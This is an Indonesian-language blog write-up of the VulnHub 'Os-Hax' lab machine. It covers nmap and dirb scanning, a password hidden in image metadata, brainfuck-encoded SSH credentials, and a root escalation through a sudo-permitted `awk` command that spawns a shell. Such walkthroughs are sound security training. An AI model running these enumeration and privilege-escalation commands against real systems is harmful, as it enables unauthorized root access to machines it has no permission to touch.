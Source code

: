 ```yaml
---
title: "[VulnHub] Os-Hax WriteUp"
date: 2019-12-20T22:14:10+07:00
categories:
  - blog
tags: 
  - vulnhub
  - writeup
  - awk
---
```


## Setup 
Edit file `/etc/hosts` menjadi seperti dibawah agar static web mesin bisa berjalan.
```
#127.0.0.1      localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
#::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

<IP_mesin> localhost
```

Untuk mencari IP mesin bisa dengan menggunakan `nmap` atau `netdiscover`

## Information Gathering
### nmap
`nmap -sV -sC -p- localhost -oN initial.nmap -v`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: 08:00:27:E2:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### dirb
`dirb http://localhost /usr/share/wordlists/dirb/common.txt`
```
---- Scanning URL: http://localhost/ ----
==> DIRECTORY: http://localhost/css/
==> DIRECTORY: http://localhost/html/
==> DIRECTORY: http://localhost/img/
+ http://localhost/index.html (CODE:200|SIZE:3135)
==> DIRECTORY: http://localhost/js/
+ http://localhost/server-status (CODE:403|SIZE:274)
==> DIRECTORY: http://localhost/wordpress/
```

### wpscan
Karena server menjalankan wordpress maka kita bisa coba cari celah wordpress dengan `wpscan`.
`wpcan --url http://localhost/wordpress/`
Namun dari hasil scan dgn menggunakan `wpscan` tidak ditemukan hal yang menarik, server pake wordpress versi terbaru, tema bawaan, dan no plugin.  

Kembali ke ~~laptop~~ `dirb`, buka direktori `/img` 
!['/img'](/assets/images/Os-Hax/img.png){: img_content }
Ada file menarik yaitu `flaghost.png`, download file tsb lalu examine dengan `exiftool`.

### exiftool
Exiftool adalah software open-source berbasis perl untuk membaca, mengedit, dan memanipulasi metadata dari berbagai macam tipe file. [_exiftool.org_](https://exiftool.org/) 
>Metadata is "data that provides information about other data". In other words, it is "data about data.[_wikipedia.org_](https://en.wikipedia.org/wiki/Metadata)

```
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
```

ada string `passw@45` di meta `Make`. *Note*: sebelum menggunakan `exiftool` bisa coba pakai command `strings` terlebih dahulu untuk mengecek apakah ada string yang disematkan ke file gambar tsb.  

Kira-kira apakah teks `passw@45` tersebut ? :thinking: kalo password login ssh dimana usernamenya?, lalu coba ekstrak string dari gambar lain di direktori `/img` tapi ternyata *zonk* :man_facepalming:.  

Lalu entah dapet ilham darimana saya coba untuk masukin teks tersebut ke url bar dan ternyata itu clue direktori :man_facepalming: :man_facepalming: .
![passw](/assets/images/Os-Hax/passw.png){: img_content }  
Nah di dalam direktori tersebut ada file `flag2.txt` dg bahasa brainfuck.
```
i+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ +++++ .<+++ +[->- ---<]
>--.- --.<+ +++++ [->-- ----< ]>--- -.<++ +[->+ ++<]> +++++ .<+++ ++[->
+++++ <]>.+ +.+++ +++++ .---- --.<+ ++[-> +++<] >++++ .<+++ ++++[ ->---
----< ]>-.< +++[- >---< ]>--- .+.-- --.++ +.<
```

>Brainfuck is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. (_wikipedia.org_)[https://en.wikipedia.org/wiki/Brainfuck]

Next copas isi `flag2.txt` ke brainfuck interpreter macam (`copy.sh`)[https://copy.sh/brainfuck/]. Jalankan, dan kita dapat outputnya.. `web:Hacker@4514` 

## Exploitation
### User Flag
`ssh` dengan username dan password diatas lalu kita dapat flag user.
```
web@jax:~$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
web@jax:~$ ls
flag3.txt
web@jax:~$ cat flag3.txt 
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
```
Next adalah dengan menjalankan [linenum.sh](https://github.com/rebootuser/LinEnum/) di direktori `/tmp`.

```
[+] We can sudo without supplying a password!
Matching Defaults entries for web on jax:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk


[+] Possible sudo pwnage!
/usr/bin/awk
```
Dari hasil enumerasi diatas kita menemukan entri `sudoers` yang memungkinkan kita (user `web`) untuk menjalankan perintah `awk` secara `sudo` tanpa perlu memasukkan password.  
Hal itu dapat ditunjukkan dengan membuka '/etc/sudoers' dan melihat user privilege specification untuk user `web`.  
`web     ALL= (root) NOPASSWD: /usr/bin/awk` 
Nah berhubung saya gak paham cara penggunaan `awk`, site [gtfobins](https://gtfobins.github.io/gtfobins/awk/) menjadi penyelamat.  
`sudo awk 'BEGIN {system("/bin/sh")}'`
Dan kita dapat akses root :smile:
![final](/assets/images/Os-Hax/final.png){: .img_content }

<hr>

Referensi:  
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)  
[https://gtfobins.github.io](https://gtfobins.github.io)
